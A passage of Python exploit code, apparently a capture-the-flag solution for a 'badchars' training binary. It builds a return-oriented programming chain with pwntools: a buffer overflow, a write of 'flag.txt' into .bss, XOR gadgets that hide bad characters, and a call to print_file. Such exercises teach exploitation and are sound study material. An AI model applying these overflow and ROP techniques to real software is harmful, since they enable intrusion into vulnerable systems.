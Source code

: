 ```python
write garbage to r12,r13
write xor_key to r14
write char to be xored, into r15
xor r15 with r14
"""
def inverse_xor(xor_indexes, xor_key=2):
        stage = b''
        for indx in xor_indexes:
                stage += p64(gadgets["pop_r12-r15"])
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(xor_key)
                stage += p64(gadgets["bss_addr"] + indx)
                stage += p64(gadgets["xor_gadget"])
        return stage


"""
pop_rdi from stack
write address of "flag.txt" string bo RDI (as arg)
call print_file
"""
def call_print_file():
        return b''.join([
                p64(gadgets["pop_rdi"]),
                p64(gadgets["bss_addr"]),
                p64(gadgets["print_file"])
        ])

def xor(data,key):
        xor_indexes = []
        xored_data = ""
        for index, char in enumerate(data):
                if char in badchars:
                        xored_c = chr(ord(char) ^ key)
                        xored_data += xored_c
                        xor_indexes.append(index)
                else:
                        xored_data += char
        return bytes(xored_data.encode("latin-1")), xor_indexes


def create_rop_chain(offset, data, key=2):
        return b''.join([
                overflow(offset),
                write_to_bss(data),
                inverse_xor(xor(data,key)[1]),
                p64(gadgets["ubuntu_gadget"]), # add if your machine is ubuntu
                call_print_file()
        ])

if __name__ == '__main__':
        p = process("./badchars")
        payload = create_rop_chain(40, "flag.txt")
        p.sendline(payload)
        p.interactive()

```
